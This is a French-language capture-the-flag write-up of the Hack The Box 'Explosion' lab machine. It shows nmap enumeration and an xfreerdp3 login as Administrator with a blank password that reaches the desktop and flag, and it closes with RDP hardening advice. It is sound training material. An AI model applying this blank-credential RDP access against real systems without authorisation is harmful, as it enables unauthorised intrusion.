


# Introduction

**Explosion** est la cinquième machine du parcours *Starting Point* de [Hack The Box](https://www.hackthebox.com/) (Tier 0). Après les fichiers (SMB) et les bases de données (Redis), on s'attaque à **l'interface graphique** via le protocole **RDP**.

:::tip
Attention : Il s'agit d'une machine VIP. Vous aurez besoin d'un abonnement HTB pour pouvoir la lancer.
:::

:::warning
Dans ce writeup, je ne publie pas directement le flag final, l'objectif est d'apprendre en pratiquant.
:::

:::caution
N'attaquez que des machines sur lesquelles vous avez l'autorisation. Respectez les règles de la plateforme.
:::

## Vidéo Walkthrough

<iframe
  width="100%"
  style={{aspectRatio: '16/9'}}
  src="https://www.youtube.com/embed/Cp1uYIbK704"
  title="Explosion Walkthrough"
  frameBorder="0"
  allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture"
  allowFullScreen
/>

---

## Reconnaissance

### Découverte d'hôte

```bash
┌─[user@parrot]─[~]
└──╼ $ping 10.129.7.131

64 bytes from 10.129.7.131: icmp_seq=1 ttl=127 time=16.1 ms
```

Le **TTL de 127** confirme une machine **Windows**.

### Énumération des services

```bash
┌─[user@parrot]─[~]
└──╼ $sudo nmap -sV 10.129.7.131

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

Le port **3389** correspond au service **RDP** (Remote Desktop Protocol). Cela permet d'accéder à l'interface graphique d'un serveur à distance.

---

## Pré-Exploitation

### Evaluation de vulnérabilité

Sur Windows, le compte roi est l'**Administrator**. Parfois, les administrateurs oublient de mettre un mot de passe ou désactivent l'authentification pour des tests.

On utilise `xfreerdp3` avec l'option `/v:` pour l'IP.

```bash
┌─[user@parrot]─[~]
└──╼ $xfreerdp3 /v:10.129.7.131

[INFO] - No user name set. - Using login name: user
[ERROR] - ERRCONNECT_PASSWORD_CERTAINLY_EXPIRED
```

Le programme utilise notre nom d'utilisateur local — ça ne marche pas.

---

## Exploitation

### Accès initial (RDP Login)

On force l'utilisateur **Administrator** et on ignore les certificats auto-signés.

```bash
┌─[user@parrot]─[~]
└──╼ $xfreerdp3 /v:10.129.7.131 /cert:ignore /u:Administrator

Domain:
Password:
[INFO] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
```

- `/v:` : L'IP de la cible
- `/cert:ignore` : Ignore les alertes de certificat
- `/u:Administrator` : On tente le compte admin

Au prompt Domain/Password, on appuie sur **Entrée** (vide).

Une fenêtre s'ouvre et affiche directement le bureau Windows de la machine cible. Pas besoin de mot de passe !



### Récupération du flag

Un fichier **flag.txt** est visible sur le bureau.



La machine est **pwned** !

---

## Post-Exploitation

Conseil de sécurité : toujours exiger une authentification forte (NLA) et des mots de passe complexes pour le RDP. Ne jamais laisser Administrator sans mot de passe.
